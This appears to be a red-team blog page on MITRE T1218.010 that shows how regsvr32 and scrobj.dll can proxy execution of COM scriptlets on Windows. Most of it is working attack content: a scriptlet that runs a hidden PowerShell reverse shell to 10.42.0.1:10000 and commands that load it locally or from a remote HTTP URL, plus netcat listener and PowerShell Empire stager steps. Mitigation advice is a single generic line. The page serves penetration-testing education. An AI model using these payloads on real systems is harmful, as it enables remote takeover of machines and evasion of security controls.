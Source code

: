 ```yaml
---
title: REGSVR32
date: 2022-04-01 05:49:33 +0800
categories: [Red Teaming, Defense Evasion]
tags: []  
---
```


# MITRE
- ID : `T1218.010`
- Tactic : `Defense Evasion`
- Platforms: `Windows`

# REGSVR32

***Regsvr32.exe*** is a command-line program used to register and unregister object linking and embedding controls, including dynamic link libraries (DLLs). Adversaries may abuse Regsvr32.exe to proxy execution of malicious code. 

# Exploitations

## Command Prompt

### Execute Local Com Scriptlet To Invoke Calculator

Copy the below script to your .sct file, then execute the following command to invoke calculator.

*com scriptlet to invoke calculator*

```javascript

<?XML version="1.0"?>
<scriptlet>
<registration 
    progid="PoC"
    classid="{F0001111-0000-0000-0000-0000FEEDACDC}" >
        <script language="JScript">
                <![CDATA[
                        var r = new ActiveXObject("WScript.Shell").Run("calc.exe");

                ]]>
</script>
</registration>
</scriptlet>

```
Command

> `regsvr32.exe /n /s /u /i:[file_sct] scrobj.dll`

```batch
regsvr32.exe /n /s /u /i:cmd.sct scrobj.dll

```
![regsvrwin](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/regsvrwincalc.png)

### Execute Local Com Scriptlet To Get Reverse Shell

To be able to get a reverse shell, copy the below script to your .sct file, update the ip address and port to your reverse shell listener's ip and port, start your listener i.e `nc -nlvp [port]`, then execute the below command on your target machine.

*com scriptlet reverse shell*
```javascript
<?XML version="1.0"?>
<scriptlet>
<registration 
    progid="PoC"
    classid="{F0001111-0000-0000-0000-0000FEEDACDC}" >
                <![CDATA[
                        var r = new ActiveXObject("WScript.Shell").Run('powershell -w Hidden -c "$client = New-Object System.Net.Sockets.TCPClient(\'10.42.0.1\',10000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + \'PS \' + (pwd).Path + \'> \';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"');

                ]]>
</script>
</registration>
</scriptlet>

```
Command

> `regsvr32.exe /n /s /u /i:[file_sct] scrobj.dll`

```batch
regsvr32.exe /n /s /u /i:rev.sct scrobj.dll

```
![regsvrwin](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/regsvrsctrev.png)

*getting a reverse shell*

![regsvrwin](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/regsvrsctrevkali.png)

### Execute Remote Com Scriptlet To Get Reverse Shell

To be able to get a reverse shell, host the below .sct script to your server i.e `python3 -m http.server` update the ip address and port to your reverse shell listener's ip and port, start your listener i.e `nc -nlvp [port]`. then execute the below command on your target machine.

*com scriptlet reverse shell*

```javascript
<?XML version="1.0"?>
<scriptlet>
<registration 
    progid="PoC"
    classid="{F0001111-0000-0000-0000-0000FEEDACDC}" >
                <![CDATA[
                        var r = new ActiveXObject("WScript.Shell").Run('powershell -w Hidden -c "$client = New-Object System.Net.Sockets.TCPClient(\'10.42.0.1\',10000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + \'PS \' + (pwd).Path + \'> \';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"');

                ]]>
</script>
</registration>
</scriptlet>

```
Command

> `regsvr32.exe /n /s /u /i:[url] scrobj.dll`

```batch
regsvr32.exe /n /s /u /i:http://10.42.0.1/rev.sct scrobj.dll
```

![regsvrwin](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/regsvrsctrevr.png)

*getting a reverse shell*

![regsvrwin](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/regsvrsctrevkali.png)

![regsvrwin](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/regsvrmeta.png)

## Powershell Empire

Use `uselistener` to setup your listener, with the listener setup, use `usestager windows/launcher_sct` to generate your payload, host your payload on your server, then execute the following command on target system `regsvr32.exe /n /s /u /i:[url] scrobj.dll`.

### Setup Listener

![regsvrwin](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/regsvrempirelis.png)

### Generate Stager

![regsvrwin](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/regsvrempiregen.png)

### Executing Command On Windows

![regsvrwin](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/regsvrempirewin.png)

### Receiving Agent

![regsvrwin](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/regsvrempireagent.png)



# Mitigations

- Use capabilities to detect and block conditions that may lead to or be indicative of a software exploit occurring.

# References

- [https://attack.mitre.org/techniques/T1218/010/](https://attack.mitre.org/techniques/T1218/010/)
- [https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/regsvr32](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/regsvr32)
- [https://attack.mitre.org/mitigations/M1050/](https://attack.mitre.org/mitigations/M1050/)
